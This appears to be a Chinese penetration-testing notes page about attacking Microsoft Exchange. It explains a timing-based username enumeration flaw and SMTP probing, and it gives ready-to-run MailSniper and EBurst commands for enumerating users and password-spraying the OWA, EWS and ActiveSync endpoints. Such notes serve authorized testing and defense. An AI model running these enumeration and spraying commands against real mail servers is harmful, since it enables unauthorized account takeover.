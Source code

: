 ### 用户名爆破

Exchange 存在基于时间的用户名枚举问题，Exchange 2016 版本的表现为：爆破到真实存在的域用户（无论是否开通邮箱账户）时，其响应开始接收时间会更短（不是完整响应时间）。

经过传统的邮箱收集加上一定的高频用户名形成用户名字典后，需要为字典设置三种格式：domain\username、username、user@domain。Exchange 管理员可以任意配置使用一种或多种格式，因此爆破的时候最好带上所有格式。

- Burp 爆破

    在没有验证码或者可以绕过的情况下，用 burp 爆破 /ecp、/owa 接口，在爆破结果中选择 Intruder -> Columns -> Response received，查看响应开始接收时间更短的用户名，即存在的域用户。

- 脚本爆破

    ```bash
    # MailSniper.ps1
    # 支持 /owa、/Microsoft-Server-ActiveSync
    Invoke-UsernameHarvestEAS -ExchHostname 192.168.123.123 -Domain island.com -UserList username.txt -Threads 1 -OutFile owa-valid-users.txt
    Invoke-UsernameHarvestOWA -ExchHostname 192.168.123.123 -Domain island.com -UserList username.txt -Threads 1 -OutFile owa-valid-users.txt
    ```

- SMTP

    通过 SMTP 协议枚举：邮箱存在会返回 250，不存在返回 500。但如果目标邮服配置了 Catch-all 邮箱，则所有发往目标邮服的无效邮箱都会被 Catch-all 邮箱接收，即无论邮箱是否存在都会返回 250。

### 密码喷洒

在获得 AD 域名和存在的用户名后，可以通过多个接口爆破 Exchange。

- Burp 爆破

    在没有验证码或者可以绕过的情况下，用 burp 爆破 `/ecp`、`/owa` 接口。

- 脚本爆破

    ```bash
    # EBurst 最推荐
    # EBurst 支持所有接口爆破，-C 检查目标开放的接口，再指定存活接口爆破。建议 /ews 或默认
    python2 EBurst.py -d 192.168.123.123 -L username.txt -p 123456 -T 10
    python2 EBurst.py -d 192.168.123.123 -C

    # MailSniper.ps1 仅支持 /OWA /EWS /Microsoft-Server-ActiveSync 接口，推荐 /ews
    Invoke-PasswordSprayEWS -ExchHostname 192.168.123.123 -UserList .\username.txt -Password ZS@123qwe -Threads 10 -OutFile owa-sprayed-creds.txt
    Invoke-PasswordSprayOWA -ExchHostname 192.168.123.123 -UserList .\username.txt -Password ZS@123qwe -Threads 10 -OutFile owa-sprayed-creds.txt
    Invoke-PasswordSprayEAS -ExchHostname 192.168.123.123 -UserList .\username.txt -Password ZS@123qwe -Threads 10 -OutFile owa-sprayed-creds.txt
    ```

---